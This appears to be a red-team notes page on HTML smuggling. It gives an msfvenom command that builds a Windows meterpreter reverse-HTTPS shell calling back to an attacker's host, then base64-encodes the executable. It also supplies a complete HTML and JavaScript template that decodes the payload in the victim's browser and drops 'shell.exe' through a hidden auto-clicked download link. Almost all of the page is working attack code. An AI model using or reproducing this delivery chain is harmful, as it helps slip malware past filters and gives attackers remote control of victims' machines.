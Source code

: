 ```yaml
---
title: HTML Smuggling
layout: default
parent: Client Side Execution
---
```


First generate a meterpreter shell:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT -f exe -o /tmp/shell.exe
```

Then base64 the whole thing:

```bash
base64 /tmp/shell.exe
```

Remove all **line break** or **new lines**

Add the whole thing to below and serve as html:

```html
<html>
<body>
<script>
function base64ToArrayBuffer(base64) {
var binary_string = window.atob(base64);
var len = binary_string.length;
var bytes = new Uint8Array( len );
for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i);
}
return bytes.buffer;
}
var file ='BASE64 PAYLOAD NEWLINE/BREAK REMOVED'
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'shell.exe';
var a = document.createElement('a');
document.body.appendChild(a);
a.style = 'display: none';
var url = window.URL.createObjectURL(blob);
a.href = url;
a.download = fileName;
a.click();
window.URL.revokeObjectURL(url);
</script>
</body>
</html>
```

